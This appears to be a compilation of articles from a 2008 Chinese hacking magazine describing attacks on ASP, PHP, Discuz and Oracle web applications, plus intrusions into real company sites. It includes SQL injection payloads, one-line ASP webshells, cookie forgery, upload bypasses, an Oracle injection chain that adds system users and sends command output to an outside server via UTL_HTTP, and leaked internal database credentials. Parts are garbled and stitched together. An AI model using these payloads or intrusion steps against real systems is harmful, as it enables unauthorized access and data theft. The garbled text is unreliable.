    Response.Write "<Script Language='javascript'>alert('对不起，此用户不存在');window.location.href='Login.asp';</Script>"
    Response.End
Else
    Pass1 = Rs("adpassword")
    If Pass1 = Md5(Pass) Then
        Session("admin") = Rs("adname")
        Response.Redirect "Main.asp"
    Else
        Response.Write "<Script Language='javascript'>alert('对不起，密码错误');window.location.href='Login.asp';</Script>"
        Response.End
    End If
End If
Rs.Close
Set Rs = Nothing
Conn.Close
Set Conn = Nothing
End If
```

钥匙不再万能，部分代码如下：

没法看了，单引号过滤了就堵住了我们进后台的办法之一。继续看代码，思路现在整理一下，方便大家理解吧。

## 2．利用漏洞顺藤摸瓜拿 webshell

我们在默认密码测试后才看后台，后台一条龙测试到，测试到 webshell 就是好 tester，呵呵，废话不继续了，我们来看图 3。

这个画面其实很熟悉，就是 inc/config.asp 里的，我们可以在这写一句话入库。当然，如果有的系统密码是 8888，并且对留言进行了过滤的话，我们在这个配置信息里写入“%><%=execute request("loveHackerNoteBook")%>”这样的话，我们就直接进入 /inc/config.asp 拿到 webshell 了。

盖掉当前“%><%execute request("IloveHackerNoteBook")%>”这样的结果如图 6。很成功地插进去了一句话，接着就是大家把服务器拿下来吧！

## 3．搜索注入

这个系统估计是那些刚学会程序的人写的，过滤不严格也不难料。很多程序员可能下一个版本会修正，但是注入仍然存在。解决它会比较严实的部分代码：

```vb
word = request("keyword")
' ……注意没有过滤就利用了……
response.write("<script language='javascript'>alert('关键词不能为空');history.go(-1);</script>")
response.end
id = 1
set rs = server.createobject("adodb.recordset")
sql = "select * from news where title like '%" & word & "%' order by id desc"
if rs.eof then
    response.write("<br><div align='center'>……</div>")
else
    %>
```

对于搜索型注入大家可以使用 NBSI 等工具进入，结果如图 7。

很成功地注入了系统，这样就知道了账号和密码，就能去后台。

## 4．小小地总结一下

这个系统虽然发布后有点火，我们也该让程序员高兴是吧！鼓励是一种动力，否则我们小菜还试做什么代码呢？总的来说，这个系统最重要的就是 session.asp 这个文件为……

但我有博客：www.xshacker.com.cn，欢迎大家和我交流。

编辑点评：作者的语言实在轻松，小编在此深深佩服。不过编排得有点乱，图、文字当初全都混杂。好似身为一个专家，不会觉得这有什么了不起。

## 交友征婚网站的小漏洞

从本文你可以学到：

- 双 %5c 绕路径
- 取得 webshell

## 1. 事情起由

从昨天开始到现在，一套 2003 操作系统还没下完，没办法，网速超卡。无聊中，想找点 MM 图片看看（网管大哥，您老见谅），就想起了刚从 http://www.wygk.cn/ProductShow.asp?ID=300 网站拿下的一套“网络交友征婚婚介网站管理系统源码”正式版。

这是正式版，其实是盗版版，很多后台功能都没有（有些代码还挺像正式版的），基本上照着大刀版改的，数据库是 ACCESS。

## 2. 正文分析

系统的设计者思路真是比较独特，他将系统的数据库分成通用与管理员两个数据库；通用数据库放在网站根目录，管理员数据库放在 admin 目录下；两个数据库名均为“wygkcnmylove.mdb.asa”。管理员数据库不仅仅存放了管理员的用户与密码，而且所有管理员前台有 session 认证，对外连接文件又没有 login.asp 这个文件，所以想通过页面进入得到管理员用户名与密码是绝对不可能了（真是一个防守严密的好思路）。

通用数据库连接文件 conn.asp 加了“On Error Resume Next”容错代码，而管理员数据库的连接文件 useconn.asp 居然没写容错代码。我们直接从 %5c 绕库，来绕一下 login.asp 试试，如图 1。

居然没返回出我们想要的结果，为什么呢？因为在根目录下还有一个同名的通用数据库，我们单个 %5c 跳到根目录那份数据库去了，自然找不到 adminuser.id。这是设计者不加容错代码的“自信”。我们再来个 %5c 试试，如图 2。

## 3. 外部提交

因为试用版的后台功能不全，没有找到配置文件更改的地方，无奈继续分析，上传限制也比较严格。翻了一下源目录，发现了一些与管理员数据库相关的文件，仅有 adminuser.asp、modpass.asp 两个密码修改文件。modpass.asp 仍通过调用 adminuser.asp 来执行，且这个文件有 session 认证，并未限制用户外部提交。adminuser.asp 有段代码如下：

```html
<pre><code>...</code></pre>
```

利用提到的用户名密码进入后台，找到管理员列表，如图 4。复制源代码，查找 action 修改如下：

## 几个脚本程序的简单分析

从本文你可以学到：

- ASP 中的漏洞分析
- PHP 漏洞分析

“Userpass”和“Request.Cookies("Userpass")”很明显，不等于字符串了后都是一样的，毫无疑问它们相等，所以不会跳转。剩下一个判断就是取得的 COOKIE 不为空了，我们可以根据 COOKIE 是否为空，或者使用 Admin_FSO.asp 之类的页面进行验证。

menu=bar 看看，再看看 COOKIE。研究到此，备份很成功，BBSSXP 一样有一个表单。我们不能控制，不过可以找到一个没有过滤掉一句话的地方，再入数据库中把数据存放在 ASP 里，因为数据库没有做防下载处理。

### 1. 站长俱乐部论坛系统 V1.0

此文分析的是站长俱乐部论坛系统的漏洞，我也不知道它的真实安全性，但觉得其程序中的安全性实在不敢恭维。我看程序有个习惯，就是先看后台权限验证页面。如果碰到一个重要文件被加上权限验证，我的习惯是看是否有旧的前台页面，否则这个文件往往是会有问题的。其实这样发现，还是有一个文件是前后台验证单独起作用的。我现在想的是更有可能的要点文件 Admin_FSO.asp，直接看验证代码。

## 漏洞分析

图 4 露出路径。

漏洞存在，但是不能拿 SHELL。

### 1. PHPizabi 0.848b C1（开源交友系统）

因为安装完程序之后 install.php 等文件不会被删除，管理员不知道的话存在被利用的可能。看 /install/index.php：

```php
<?php
include (isset($_GET['step']) ? $_GET['step'] : '1.php');
```

一个文件包含漏洞就出来了，但是它限定了后缀名。本人初学 PHP，尝试一百多次测试都不成功，不过最终的时候也会爆出物理路径。我在官方测试的，如图 4。

看以前的文章，说是可以读取非 PHP 后缀的文件。如果是 *nix 主机，权限大的话可以读 etc/passwd 文件；Windows 下可以读 mysql.ini，拿到 MySQL 的 ROOT 密码就更方便了。这里条件有限，无法测试了。如果哪位 PHP 高手知道怎么更好地利用，请告知小弟，谢谢了。

总结：  
漏洞很鸡肋，但是我们找漏洞并不是为了拿 shell 进去，而是在找 BUG 中更好地学习。学习是为了更好地找漏洞，所以归根结底还是要学习的，别让自己的大脑停下，别让自己的学习落下。

编辑点评：  
本文说的几个漏洞都是老漏洞，没有深层次的分析和利用，但是大家能把文章整理完整，也是一个可以继续发展的优势。

### 二、PHP 篇

因为就只下了一套 PHP 的，这篇可以说是不多不少。这套程序有……

我们常见的连接文件不外乎 conn.asp 文件里定义了一些函数，有 2 个函数比较常见，我们就从这个文件下手吧，图 2。

暴库是暴库了，可是我们不能下载，因为做了防下载处理。我这里是想指出 BUG 所在，看看 WEB 路径也挺好的。

### b. 注入

直接看漏洞文件 index.asp：

```asp
forumID = Request.QueryString("forumID")
classID = QueryString("classID")
...
%>
<%
if forumID = "" then
forumID = 1
...
sql = "select * from board where boardid=" & forumID & ...
```

forumID 没有过滤，加个单引号，如图 3。

union 查询还是工具注入，就看各位拿手了。

```asp
<%
formID = Request.QueryString("formID")
...
sql = "select * from board where boardid=" & formID & ...
```

## 程序安全黑客手册 2008.04——[新阅读练习]

其中 gwlb、sjyq、gwjz 三个参数分别对应的是“岗位类别”、“发布日期”、“岗位关键字”和“发布时间”是选择项，而“岗位关键字”是我们可更改的参数。好了，我们来检测下：


当你在 URL 上提交一些非法参数时，就会输出“对不起，非法 URL 地址请求！”的字样，此时不在 URL 上提交的参数就没有进行过滤。先看看下面的一个注入漏洞的分析，再分析下如何突破该类防注入的限制。

### 一、注入漏洞

### 1、搜索型注入的漏洞

在 searchgw.asp 文件中设计过滤提交的搜索关键字，而且没有限制提交的长度，主要的代码如下：

```asp
<%
gwlb=request("gwlb")
sjyq=request("sjyq")
gwjz=request("gwjz")
page=clng(request("page"))
...
Response.Write("对不起，非法 URL 地址请求！")
...
```

```sql
if request("sjyq")<>"" then
  if request("gwjz")="" then
    sql="select * from dw_gw_job_dwuser where ..."
  else
    sql="select * from dw_gw_job_dwuser where ... and gwjz like '%" & gwjz & "%' order by ..."
  end if
end if
```

当把攻击的关键字提交到查询框中时，页面会返回不同结果，如图3、图4所示。


对方程序对参数 pusername 没有做任何过滤，带入数据库进行查询。不过页面有一个取回密码的方法，如图5。在方法1中有二个文本框的内容对用户输入的用户名是否合法进行了判断，还要输入合法的邮箱，操作起来不太方便，我们还是看看密码取回方法2吧。在密码取回的方法2中，只要输入一个用户名。列表中有一个 jkh1188 的用户，而且对输入的用户名是否合法没有进行判断，但限制了输入的长度，不过我们完全可以自己构造表单进行外部提交，构造的表单内容如下：

```html
<FORM action="http://127.0.0.1/.../forget1.asp" method="post" target="_blank">
<input type="hidden" name="username" value="...">
</FORM>
```

我这儿修改了下输入提交内容的长度和文本框的长度，补齐了 action 后的地址，保存为 1.htm，打开后如图6。

我们先来检测下在用户名框内分别输入 jkh1188' or 'a'='a、jkh1188' or 'a'='b，点提交后返回不同的页面，如图7、图8以及图9、图10。

大家是否注意到页面的不同之处了（在显示提示问题处）？接下来的过程是手工注入的，系统中管理员的表名和关键的字段对应的分别是“admin”和“adminname”、“password”，注入语句如下：

- 1. 查询表名：admin
- 2. 分别猜测表名和字段名
- 3. 将用户名输入 admin' and 'a'='a
- 4. 将用户名输入 admin' and 'a'='b
- 5. 查看回显内容
- 6. 继续注入获取字段信息

### 3、突破防注入程序的注入

上面的这个漏洞利用起来比较麻烦，下面我们再来看看 conn.asp 文件中的防注入的突破方法吧。不知道大家是否还记得了，程序虽然对一些常用的注入符号进行了过滤，但没有过滤大小写字母。当然，我们只要把注入符号换成大写，就可避免被过滤掉了。接下来我们要把注入的语句提交到有逻辑判断处，这样在浏览器页面输出“对不起，非法 URL 地址请求！”的字样，如图11。我们再分别用 AND 1=1 和 AND 1=2 来试下，如图12、图13。

接下来我们利用联合查询来得到管理员的用户名和密码，先看下 zx_xq.asp 文件中的主要代码：

```asp
if request("id")<>"" then
  sql="select * from zx where id=" & id & ...
  Set rs=conn.execute(sql)
  if not rs.eof then
    ...
  end if
end if
```

联合查询的一般过程如下：首先要知道 zx 表中字段的长度，而且在 SQL 语句中不包含 order by 语句，大家就可以用 ORDER BY X（X 为不定数）来判断字段数，接着就是构造 UNION SELECT 语句。我们可以用 UNION SELECT 1,1,1,1,1,1,1,1,1,1 来尝试，如图14。之后我们也可以查看数据库，从数据库中寻找表名及其中几个字段，如图14。

| 字段名 |
|---|
| id |
| title |
| user |
| type |
| width |
| height |

首先要知道 admin（管理员表）和 adminname 与密码 password 所代表的字段名称是什么。（1）在含登录的页面改成 chengsz123/login.asp，这个字段名称是什么，进入后台后可继续检查。

接着我们用页面中出现的数字修改管理员用户名和密码相对应的参数。

## 三、后台 COOKIE 获取漏洞

系统后台登录采用了 COOKIE 验证，在 chensgz123 目录下管理登录的 ASP 文件中，开头都有这么一段代码：

```asp
<%
if request.cookies("abc")("adminname")="" then
    response.Redirect "login.asp"
    response.End
end if
%>
```

代码只简单判断了 adminname 是否为空，我们构造下 COOKIE：cookie=abc=adminname=admin，就可进行 COOKIE 注入，骗登录后台了。打开老兵的 cookie 欺骗工具，修改 cookie 为：cookie=abc=adminname=admin，在“Address”栏输入 http://127.0.0.1/3.0/chensgz123/index.asp 后点击第二次访问，跳转到“login.asp”页面了，再次访问 http://127.0.0.1/3.0/chensgz123/index.asp 就可登录到系统的后台，如图21。

## 四、上传的漏洞

这套系统是采用酷鹏上传系统，人才上传漏洞。我以前写过一个具体的利用过程，现在来看看 UploadPic.inc.asp 的关键代码：

```vb
picName = trim(Request.QueryString("picName"))
actionType = trim(Request.QueryString("actionType"))
' 这里省略若干代码
if actionType = "mod" then
    picName = right(picName, len(picName))
    ' ...
end if
```

上面的代码逻辑会根据 picName、actionType 等参数处理上传文件名，并保存路径；通过构造特殊参数可实现上传图片并进入后台。


## 小问题引发的对 DZ 的思考

从本文可以学到：对 DZ 的可见即所得模式编辑器的思考。

说起 DZ，大家肯定不陌生了。其实这个小问题很早就发现了，可一直没有找到合适的办法来利用它，因此这里把这个问题提出来，让大家一起来思考好了。我们先看两张图，大家要看看什么呢，如图1、图2。

看着这两张图片大家会想到什么呢？一个是在 www.slenk.net 上测试的，还有一个是在 www.crst.com.cn 上测试的。或许大家会注意到它们在这个站点的模式不一样，一个是 Discuz! 代码模式，一个是所见即所得模式。通过测试发现，DZ 默认的是第一个模式，在第一个模式下并不会自动触发代码功能，但在第二个模式下会。

```http
POST /upload/post.php?ac=comment&field=1&2&extra=page%3D18&topicid=... HTTP/1.1
Host: localhost
Connection: keep-alive
Cache-Control: no-cache
Cookie: ...
User-Agent: Mozilla/4.0 ...
```

上传一个 JPG 后缀的 ASP 马，我们可得到 uppic 文件夹下，看到我们上传的 ASP（文件名为 77169.asp），如图23、图24。不过对这个思考来说，更加需要检查隐藏目录的路径。在前台注册用户里有上传的功能，但无法绕过上传的限制。系统最后无元数据备份部分，而是一些配置都是写入数据库。由于一些配置是写入数据库，而由于少数环境，除去这些的情况下，这里需要更好的方法来封装 WEBSHELL，大家都一致认为这是一个更好的办法。


## 对 DZ 的思考

来到预览的页面，出现了想要的结果，如图3。通过测试得到的结果我们可以看到传递的变量有 fid、extra……它们是怎么处理的呢？我们继续跟踪，查看 post.php 发现包含文件 common.inc.php。我们再来看这个文件，在文件的 44—47 行，我们发现如下代码：

```php
foreach(array('_COOKIE', '_POST', '_GET', '_SESSION') as $_request)
{
    foreach($$_request as $_key => $_value) ...
}
```

看到这里我们知道，所有的变量都会经过这里进行处理的。

```http
POST /upload/post.php?action=... HTTP/1.1
Host: localhost
Content-Type: multipart/form-data
Accept: image/gif, image/jpeg, image/pjpeg, image/pjpeg, image/pjpeg
...
```


('postform').message.value），这条代码是什么意思呢？bbcode2html 函数原本不是 PHP 自带的函数，不过从经典著作中提过把 bbcode 转换成 html。为了找原因，还是得看源码，我们在 bbcode.js 的 38—115 行发现了函数，首先我们来到这里：

```javascript
if(formallowhtml && !allowhtml && !fetchCheckbox('htmlon')) {
  str = str.replace(/\&/g,'&amp;');
  str = str.replace(/\</g,'&lt;');
  if(!fetchCheckbox('parseurl'))
    str = parseurl(str, 'html');
}
```

如果论坛禁用了 html 代码（html 代码默认是禁止的），那么会先把“<”和“>”这两个危险字符转换成 &lt; 和 &gt;。对啊，明明转换了，为什么还会在预览模式下触发代码块的功能呢？为了再次证明对这两个危险字符进行了转换，我们尝试点击调到预览模式，再查看源文件，发现确实做了转换，如图4。

```javascript
function previewpost() {
  if(validate('postform')==true) {
    postform.message.value = bbcode2html(form);
    postform.submit();
  }
}
```

从这个函数的功能来看，最关键的一句是：bbcode2html( )。

## 首发攻击技术——犀利的 Oracle 注射

从本文你可以了解 Oracle 注入。

Oracle 自身有很多的存储过程，在这些存储过程里，有的默认一般都是对 public 开放。在过去的几年里公布了很多 Oracle 的漏洞，其中就包括越权和 SQL 注射相关的漏洞。在这方面，SQL 注射漏洞是很容易利用于所在应用的。因为在 Oracle 里，在不加其他关键字 AUTHID CURRENT_USER 的情况下，创建的存储过程在运行时便是以创建者身份运行的，因此对比其他存储过程有着不同。默认的存储过程有着相对某些问题，不易出错，因此对于普通用户提升到 Oracle 权限较易。

在我对公司统一的 Oracle 相关漏洞中，GET_DOMAIN_INDEX_TABLES 便是当中较具危险的漏洞之一。成功利用这个漏洞，可以在 Oracle 服务器上执行任何 pl/sql 语句，从而控制整个 Oracle 服务器。因此很值得一谈这类利用中所用到的危险性。

```http
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21
```

其中变量 from_time 和 to_time 都没有经过过滤，是一个 date 型的日期变量。如果没有猜错的话，user_trafficlog_query_action.jsp 是这样写的：

- String query='select * from table where time>to_date(''" + request.getParameter("from_time") + "'','yyyy-mm-dd') and time<=to_date(''" + request.getParameter("to_time") + "'','yyyy-mm-dd') and ipadd=' ...

当我们提交：

```http
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21
```

页面返回正常（如图1），再提交：

```http
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-2080&to_time=2007-10-21
```

页面返回错误（如图2），这也证明了我们前面的猜想是正确的。

## 图1

## 图2

## 图3

## 图4

到此为止，我们便成功地在 Oracle 服务器上创建了一个可以执行系统命令的函数 LinxRunCMD()。由于 Java 的跨平台性，一个函数可以同时在 Windows 和 Linux 下使用。要执行这个函数，只需运行：

```sql
select sys.LinxRunCMD('cmd /c net user linx /add'); from dual
```

接着，进行注入：

```sql
user=trafilog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxxx&from_time=2008-1-1') and 1=1 and sys.dbms_export_extension.get_domain_index_tables('FOO','BAR',null);--
select sys.LinxRunCMD('cmd /c net user linx /add'); from dual
```

为了看到这个函数的执行结果，所以我在自己的 web 服务器上（IP 为 222.31.175.62）写了一个 record.php，内容如下：

```php
$onlinip = $_SERVER['REMOTE_ADDR']; // 客户端的IP
$sql = $_GET['record'];
$sql = iconv('GBK','UTF-8',$sql);
$time = time();
$file = fopen('record.txt','a+');
fwrite($file,$onlinip."\t".$sql."\n");
fclose($file);
?>
```

然后在以下 URL，让 Oracle 服务器执行“/bin/bash help”命令，如图4。

```sql
user=trafilog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxxx&from_time=2008-1-13') and 1=1 and sys.dbms_export_extension.get_domain_index_tables('FOO','BAR',null);--
select UTL_HTTP.request('http://222.31.175.62/record.php?record='||LinxRunCMD(REPLACE(REPLACE(sys.LinxRunCMD('lnx'),chr(10),''),chr(13),''))||to_date('2008-10-1','yyyy-mm-dd'))
```

最后，我们打开 http://222.31.175.62/record.php，可以看到图5的内容。至此，我们已经可以在 Oracle 服务器上执行系统命令了。

## 西线专题｜黑客手册 2008.04 →【西线无战事】

> 西线卷首语：

我发现学黑客的人对神奇的东西分布成两个极端，对两种武器的利与弊，有一种就是绝对的，基本在中间混杂变慢的很少，真是够拐弯。最近我就把偷得很细，似冬天一包月饼不是都很凉了，拦了这么多我恐怕也不了解，直觉最坏阴魂缠绕，昨天的球赛结束的消息，它们用手中的数据都整整拿来中原花笺了；为了身体，我又觉得孔贼只不过杀死故事而已？还是有意念的黑客啊。现在人家设计成安全服务器，更难被“飞”，我现在也无所谓太早思考，按我的大脑来说我也要多给大家，我依然不也搞上地一直，想（要）来个紧张万分的看法，哈哈。

## 在某知名游戏代理商内网劫游

从本文中你可以学到一种常规的 aspx 文件头欺骗手法及了解内网信息探测的某个思路。

进展，唉，看来是没搞了。

### 一、起因

有天刚一上 Q，**月就叫我和他一起搞一个游戏官方站，原因是他的一朋友发他带出这个游戏的名字，**月没办法，就只好去搞官方拿数据库了。听了他的话我想了 1 分钟，然后就和他开始了渗透。

### 二、郁闷的开始

大家都知道，游戏官方站几乎是没有漏洞的。**月给了我这个游戏的官方网址：pe.com，是一个二级域名，用 asp.net 编写的，如图 1 所示。一级域名是一个游戏代理商，如图 2 所示。于是检测了一下，没发现可利用的漏洞，用了几个工具扫描都不出来什么，注入这条路断了个彻底。

忽然，想到了 asp.net 可能有暴露的漏洞，不管怎样，获得一点信息总是好的，于是马上测试了一下。没有结果，然后再用几个比较老的 asp.net 漏洞检测工具对其进行了检测，最终是无功而返。继续侥幸，翻阅了下 **月的旧题册，他说一道。

|   |   |
|---|---|
|  | 图 3 |

### 三、成功初现

在我准备放弃的时候，突然看到上传图片的功能（如图 3），感觉这可能是成功的转折点，但这时候我的信心已经减了七八成。我不知道要把肚子里好点，看来不停身份证，直接找了个之前的超简单 DIY 小马，返回上传不成功，却又把文件名改为 jjc1.1.asp，结果上传不成功也不影响这个程序判断，最后剩下的就是解析。

于是我放下了把上传点丢给 **月，并和他说我不搞了。过了 5 分钟，他说换了文件上传，但就是不稳定执行，还有就是服务器不支持 asp。

怎么能上传任意文件却不能执行呢？问了他之后才知道是 gif 文件头欺骗。自己实际想想，asp.net 的不支持 fileid，我换了一句话和 lake2 的大马，马上执行了，如图 4 所示。

### 四、荆棘丛生的提权

进入 webshell 后发现其权限比较受限，能浏览，cmd 也能执行，但是不能加用户，这是 user 权限。我想想看，貌似 **月搞错了，回来的时候已经把 webshell 换了个比较隐藏的目录。

一般拿到 webshell 后的提权思路是先找第三方软件，然后利用它们的漏洞来提权。所以我翻开了 **月开始找第三方软件，很高兴地发现了 Serv-U，版本 6.3，使用 lake2 的 asp.net 版 su 提权程序提权成功。我认为是为了密码，于是打开了 Serv-U 的 user.ini 文件，找到 s_u 管理员的密码 Hash 后便开始用“su 破解数字密码破解器”进行暴力破解，大约过了十多个小时，还是没有破出来。再在 Program Files 翻到了加密的资料服务器目录，发现这台服务器没有安装防火墙和杀毒软件。

```text
Usage:
  /bin/bash [GNU long option] [option] script-file ...
  /bin/bash [GNU long option] [option] script-file ...
  GNU long options:
    --debug
    --debugger
    --dump-po-strings
```

### 五、在内网中穿梭

然后我用 superscan 扫了下 webshell 服务器的端口，发现只开了 80 和 1433，原来 server-* 没有启动，所以就算嗅到了密码也没用。这时对我的打击真的很大，因为之前做的居然都是无用功。

整理了一下思路，想到走 MSSQL 这条路可能会有突破，马上对整个硬盘进行了搜索。在搜索了 web.config 文件后，发现了 6 个数据库的密码，其中还有一个库是 SA 权限，数据库信息如下：

- 10.10.0.42
  - database=SystemFramework
  - uid=newapp
  - pwd=Oc7102242app
- 10.10.0.52
  - database=TiPassPort
  - uid=passportweb
  - pwd=Oc7102252web
- 10.10.0.53
  - database=Billing_Log
  - uid=newapp
  - pwd=Oc7102253app
- 10.10.0.82
  - database=shop
  - uid=newshop
  - pwd=Oc7102282shop
- 10.10.0.94
  - UID=sa
  - pwd=sa
  - database=master
- 10.10.0.95
  - database=WebSite
  - uid=newapp
  - pwd=Oc7102259app

我在 webshell 中用 CMD 执行了 `ipconfig` 命令，查看得到的 IP 为 10.10.0.94，原来 webshell 服务器的 MSSQL 数据库权限就是 SA。大家仔细看下数据库的信息，很容易就发现其规律：数据库的用户名为该数据库的性质，数据库的密码为 Oc71022 + IP 最后的 1 位数字 + 数据库性质。

我用 webshell 的数据库连接功能连接了 10.10.0.94 服务器，如图 5 所示，发现 xp_cmdshell 被禁用了，还有 N 多有用的扩展登录。本来还想用 sandbox 来执行命令，但是失败了，一次无功而返，直接打了手机，再次 sniffing 了一下，如图 6 所示。

然后我用 newapp 和密码 Oc7102259app 登录，居然登录成功了！这使我信心大增。又 ping 了一下目标游戏的网站 *.e.*****.com，没有提示 time out，看来没有安装防火墙，直接架了个 sock5 代理，直接终端连接到 *.*****.com，成功连接。（也许有人会问为什么不在 10.10.0.94 中连接 10.10.0.52，还要多此一举去 ping *.*****.com，省得看它有没有装防火墙？这是因为 10.10.0.94 太慢了！我实在受不了！）然后用原来的 webshell 密码 Oc7102252web 成功登录到 e.*****.com，如图 8 所示。

最后经过近 5 小时的全面查找，还是没有找到 e.*****.com 的游戏数据库密码，我也就没进行下去了。后来说平时几次后，盯到了目标游戏数据库密码，等了 2 个多小时才赶上来，而且又增加了几台内网机器。

现在这个游戏里的一些漏洞已经补了，而且 e.*****.com 也做了权限设置，存放上传文件的文件夹现在不能执行任何脚本，估计也比较难搞了。好了，这篇总结就写到这里，这个地方没有什么技术含量了，大家如果有什么问题可以到 NO1A4CX 交流啊。关于我之所以没有把这篇写作公布出来，是想把后边的技术保留一下，练练大家的攻防能力。

### 六、结语

文章参考：

- 《原曾攻破一例用 IIS HTTP request 及 Oracle 进行注入》，《黑客手册》08 年 1 月刊。
- 《火龙 PHP+Oracle 实战的全过程》，《黑客手册》07 年 10 月刊。
- 《Oracle web 漏洞注射技术》，by 创心

编者点评：

对于 Oracle 的注入大家还比较陌生，毕竟使用这个数据库的网站在我国现在还不是太泛滥，主要是一些机构采用。当然，一旦 Oracle 出现问题，那可就未见得不是个问题……

> 编辑点评：
> 该部分文字内容较多，涉及 webshell、网络连接与数据库密码获取等信息，属于入侵与渗透过程的技术描述。为避免不当使用，建议仅从安全研究与防护角度理解。

## 成功还是失败？——我对金山公司的——一次小测试

从本文你可以学到 Google 黑客的常规手法。

### 一、无心的开始

在我的记忆中，好像……站都被搞过，这个金山呢？我记得当年闹得很大的当属金山和珊瑚虫之间的纠纷，至于搞这个网站的好像没有。那么，金山的问题会不会和其它网站一样，有漏洞呢？回家的我心中也就假设，在东成南北，你就正是了这样的想法。于是，就有了这篇文章。

### 二、开始踩点

像我这样的菜菜是不可能有什么 0day 的，当然就得开始踩点了。这里先提醒下大家，我在亲戚家中的网吧，手中没有什么现成的工具。开始我想踩点时，便在一些方面查找，第一是下载工具麻烦，第二就是有注意的语句也不见得有什么可以利用的。于是，我便手动用 Google 来搜索了，看看能不能找出一些有价值的东西！

按照惯例，大家都喜欢用 `site:kingsoft.com` 来了解下大致的情况。很显然，金山这样的站点，二级分站会很多，如图 1 所示。如果踩着菜单一直往下去的话，估计大家都会没法用，因此我也不想在这个页面浪费时间；于是尝试用 `site:kingsoft.com inurl:asp` 和 `site:kingsoft.com inurl:php` 等搜索方式来搜索，不果。难道真的要一个个去看二级分站和主站么？

为了图方便，我想起了我以前的那篇文章《google hack——菜鸟笨人的大招》，这样的站点会不会存在 IIS 配置不当的问题呢？于是我接下来试试，使用 `site:kingsoft.com intext:'index of /'`，可惜没有达到我想到的结果，如图 2 所示。哎呀，不能这样放弃，换个方式，再试一次 `site:kingsoft.com intext:'to parent directory'`，效果出来了，如图 3 所示。好了，效果出来了，是不是能通过这个目录查看有用的东西呢？

### 三、遇见困难

通过浏览这个网站发现，里面的东西全部都可以看到！可惜的是得不到什么敏感数据。要是能得到网站的源码，我们或许能够得到点什么。于是，我在这个站内的目录内到处乱找，结果还真让我们找到一些关键东西。下到了其中的两个 rar 文件，发现里面竟然是源代码，而且在其中的 web.config 中发现了一些数据库的连接用户名和密码（如图 4），并且由此发现两台数据库服务器不一样。

这里我们还得确定一下，服务器有没有设置 IPSEC 策略限制。如果没有的话，我们就有希望。于是我在 CMD 下连了一下试试，发现其中的一台服务器可以连接，如图 5 所示。可是我发现我身边什么工具都没有，下个 MSSQL 文本工具也麻烦。于是想到和别人合作的办法，这样或许快捷。于是我找到了好友瓶瓶子，让他用查询分析器连上去试试，结果发现我的 A 服务器他连不上去，改了端口也没用，恼人就在这里。只是如果连 A 服务器都不能连上去的话，恐怕就没有什么希望了，思路便在这个地方顿挫了……

### 四、再现生机

还是有点不死心，是不是瓶瓶子那边的问题呢？明明可以 telnet 的？于是，我又找到了 Show_style，让他试一下，他说又可以连上去了！并发来了图片，如图 6 所示。我马上叫瓶瓶子连上去，发现权限并不是太多，不过也是够了。有了数据库权限，那么接下来做什么呢？我们的目标是 webshell，而且仅仅是 webshell 而已，毕竟大公司的网站不是那么好惹的，要真是较真起来，可不好说了。

有了数据库，我们的思路就是找绝对路径，然后备份个 shell 就好了。要找到它的绝对路径，自己构造个注入点就行了。到这里，我要说明下，为什么这里要用这种方式，因为某些原因，我并没有拿到 shell（其实物理路径已经得到了），于是后边我们看到，对吧，我想数据库应该不算太失败吧！这里只想提供那个绝对路径，于是我构造注入点，可以先构造如下文件，命名为 sql.asp，代码如下：

```asp
<!--#include file="conn.asp"-->
<%
dim m, s, SQL, id
set rs=server.createobject("ADODB.recordset")
id = request("id")
SQL = "select * from PE_GuestBook where GuestID=" & id & " order by ..."
rs.open SQL, conn, 1, 3
rs.close
%>
```

然后再构造 conn.asp，代码如下：

```asp
<%
Set conn = Server.CreateObject("ADODB.Connection")
conn.Open "PROVIDER=SQLOLEDB;DATA=server.xxx.xx.xx,1433;database=XX;Trusted_Connection=no;User ID=..."
%>
```

这样，在本地搭建的环境下，在网口内输入 `http://127.0.0.1/sql.asp?id=1`，就可以检验出物理路径了，然后备份就下 shell 了（注意备份路径）。

至于如何备份，这里我就不详细写了，可以用差异备份或者 log 备份。

### 五、总结

在这里我记下平时我的经验。记住，这里的总思路、具体的步骤就要大家自己耐心细心地完成了。常见的注入和利用的……

## 社工东西南北：林中学校园官方网站

从本文中你可以看到一出社工的好戏。

## 一、前言

我有个朋友刚到一学校任教，他们老大委托作为学校做个校园网站，作为正式工作前的考验，要求网站安全，并且程序完美即可。朋友心里犯难，毕竟在学校里没有认真学习过网站建设课程，没有代码编写实际经验。由于首次上任，只好硬着头皮答应。朋友把事情前后告诉了我，希望我能帮忙，这可关系到好朋友的工作呀，我也只好答应，毕竟关系好嘛！

毕竟要的是一套 ASP+ACCESS 结构的整站，另外最好附带整合的论坛。于是我想到了这次帮忙之行。

### 二、代码测试

朋友要的那种类型应该很好找，于是我来到站长站，准备找几套程序回去测试。由于朋友需要校园类的网站，在搜索框里输入“校园整站下载”，排列第一的是“树林中学校园网”，不知道这套程序怎么样，先下回去再说。

本机搭建静态的运行环境，我安装的是 IIS。安装过程我不再叙述，相信大家都很熟悉了。配置好相关 IIS 设置，程序挂到网站目录，启动 IIS，输入本机 IP，很快站点打开了。网站很酷很漂亮，而且还整合了一个 6KBBS 论坛，完全符合朋友的需要。界面方面虽然觉得漂亮，不知道安全性是否也一样漂亮。

Shownews.asp 是用来显示新闻的文件，部分代码如图 1 所示。从图 1 中我们可以看到客户端通过 request() 的方式在 URL 中获取 cid 的值，并且通过 cInt() 函数进行过滤，再与数据库进行查询。我们再往下看，fileid 值也是通过 request() 方式获取，通过类似的方法，连你自己也可以发现，很多参数都存在这种不经意的传递。

并未通过任何的过滤就直接拼接进数据库执行查询操作。注射漏洞产生，现在我们来构造查询语句爆出用户和密码数据。密码是 MD5 加密，数据库程序管理改成了 asp 格式的，估计是怕黑客没法下载吧。把格式还原成 .mdb，用 dmli 为其打开，article 表里有 15 个字段，如图 2 所示。

构造查询代码：

`and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 from admin`

接着可以在 2 和 3 的位置爆出我们所想要的数据，这里爆出管理员的信息。

代码构造：

